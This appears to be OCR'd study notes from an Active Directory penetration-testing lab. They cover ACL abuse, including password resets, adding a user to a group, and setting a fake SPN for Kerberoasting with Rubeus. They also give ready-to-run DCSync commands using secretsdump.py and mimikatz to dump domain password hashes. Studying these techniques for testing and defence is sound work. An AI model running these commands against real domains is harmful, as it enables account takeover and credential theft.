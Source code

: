 * Authenticate as `wley` using a `PSCredential` object.
* Create a new password as a `SecureString` and use `Set-DomainUserPassword` to change the password of `damundsen`.

Next step: authenticate as `damundsen` and add `damundsen` to the `Help Desk Level 1` group.

* `Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose`
* Confirm group addition using `Get-DomainGroupMember`.

Final step: Using `GenericAll` rights, we can modify SPN of `adunn` to execute a Kerberoasting attack.

* Create a fake SPN with `Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose`
* Kerberoast with `Rubeus`: `.\Rubeus.exe kerberoast /user:adunn /nowrap`
* Finally, crack the obtained hash with `hashcat`.

## DCSync Attack

An attack to steal the AD password database using Directory Replication Service Remote Protocol.

* Request a DC to replicate passwords via the `DS-Replication-Get-Changes-All` extended right.
* Domain/enterprise admins and default domain admins have this right.

Extracting NTLM hashes and Kerberos Keys using `secretsdump.py`:
`secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5`

* `-just-dc` option extracts NTLM hashes and Kerberos Keys from the `NTDS.dit` file.
* `-just-dc-ntlm` option extracts only NTLM hashes.
* `-just-dc-user <USERNAME>` extracts data for a specific user.
* `-pwd-last-set` shows us when each account's password was last changed.
* `-history` provides a dump of password history.
* `-user-status` allows us to check if a user is disabled.

Note that this can dump cleartext passwords if reversible encryption is enabled for accounts.

* Check using `Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol`

Attacking using `mimikatz`:

* Run PowerShell in the context of the DCSync user: `runas /netonly /user:INLANEFREIGHT\adunn powershell`
* Start `mimikatz`: `.\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator" exit`

## Privileged Access

We can use BloodHound to view the following permissions:

* CanRDP
* CanPSRemote (use WinRM)
* SQLAdmin

With PowerView, we can use `Get-NetLocalGroupMember` to enumerate members of the respective groups.
